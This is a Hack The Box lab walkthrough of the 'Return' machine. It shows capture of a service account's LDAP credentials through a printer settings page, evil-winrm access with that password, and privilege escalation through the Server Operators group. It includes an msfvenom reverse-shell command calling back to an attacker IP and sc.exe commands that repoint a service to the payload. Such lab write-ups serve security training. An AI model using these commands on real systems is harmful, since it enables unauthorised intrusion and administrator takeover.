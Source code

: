 ```yaml
---
title: 'HTB - Return'
author: paincakes
date: 2023-02-11 20:55:00 +0800
categories: [HTB, Easy]
tags: [AD, htb-walkthrough]
---
```



![Box-Info](https://paincakes.sirv.com/Images/HTB/Return/INFO.png)
## NMAP Scanning

Let’s start with scanning the IP with NMAP to enumerate open ports and the services running on the host.

![NMAP](https://paincakes.sirv.com/Images/HTB/Return/nmap.png)

As we can see lots of ports are open, but the main take away is that this is a Windows Machine that is inside an Active Directory domain. If you are not sure, you can always tell by these usual suspects:

- Port 135/139/445 running SMB 
- Port 88 running Kerberos
- Port 389/636 running LDAP

We do have port 80 open which is running a Microsoft IIS Web Server so let’s check that
out first.


## Web Server Enumeration 

![Return](https://paincakes.sirv.com/Images/HTB/Return/Web%20Page.png)

It was a static webpage with only **Home** and **Settings** Page working.
 
![Return](https://paincakes.sirv.com/Images/HTB/Return/Settings.png)

The settings page is likely to be the settings of the Printer in the AD. It gives us the username `svc-printer`, but the password is hidden, looking at the browser console, only the Server Address text input works as the parameter of IP when you press the “Update” button.

We can change the server address to our IP address and listen to port 389 which uses insecure version of LDAP which returns the credentials in plain text when queried. So first checking our IP address and listen to port 389 using netcat.

![Return](https://paincakes.sirv.com/Images/HTB/Return/netcat.png)

Change the “Server Address” to our IP address and press “Update”.

![Return](https://paincakes.sirv.com/Images/HTB/Return/server%20ip.png)

The page will get stuck, and we will get the password of “svc-printer” from the LDAP query in our `netcat` listener.

![Return](https://paincakes.sirv.com/Images/HTB/Return/svc-password.png)

We get the pasword! ezpz

## Enumerating Shares

Accessing the shares using `crackmapexec` tool,

![Return](https://paincakes.sirv.com/Images/HTB/Return/cme%20smb.png)

We had READ/WRITE access on the shares, so maybe we can even access the PS shell using `evil-winrm` tool.

## Getting the $shell and User flag

`evil-winrm -u 'svc-printer' -p '1edFg43012!!' -i 10.10.11.108`

![Return](https://paincakes.sirv.com/Images/HTB/Return/evil-winrm.png)

We can find the user flag in the `C:\Users\svc-printer\Desktop\` directory.

![Return](https://paincakes.sirv.com/Images/HTB/Return/user%20flag.png)

## Privilege Escalation

Executing the command `net user` svc-printer shows us that we are part of the “Server Operators group”. Members of this group can start/stop system services. Server Operators have this capability, and the command gets executed with Administrative privileges, so we can modify the service binary path to obtain reverse shell with admin privilege.

![Return](https://paincakes.sirv.com/Images/HTB/Return/net%20user.png)

### Building Malicious .exe file with MSFvenom

We can use msfvenom to build a “exe” payload which establishes a reverse shell of the remote machine.

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.12 LPORT=4545 -f exe > shell.exe`

![Return](https://paincakes.sirv.com/Images/HTB/Return/msfvenom.png)

From the `evil-winrm` remote connection we can easily upload our payload from its “upload” functionality.

### Getting  ROOT 

Now, Starting the `netcat` listener at port 4545 and running the following commands on the `evil-winrm` shell.

```
sc.exe config vss binPath="C:\Users\svc-printer\Documents\shell.exe”
sc.exe stop vss
sc.exe start vss
```

![Return](https://paincakes.sirv.com/Images/HTB/Return/start%20stop.png)

After executing the start command the terminal will freeze and we will get the reverse shell with Administrator privilege on our `netcat` listener.

![Return](https://paincakes.sirv.com/Images/HTB/Return/root%20shell.png)

The root flag is found in `C:\Users\Administrator\Desktop\` directory.

![Return](https://paincakes.sirv.com/Images/HTB/Return/root%20flag.png)

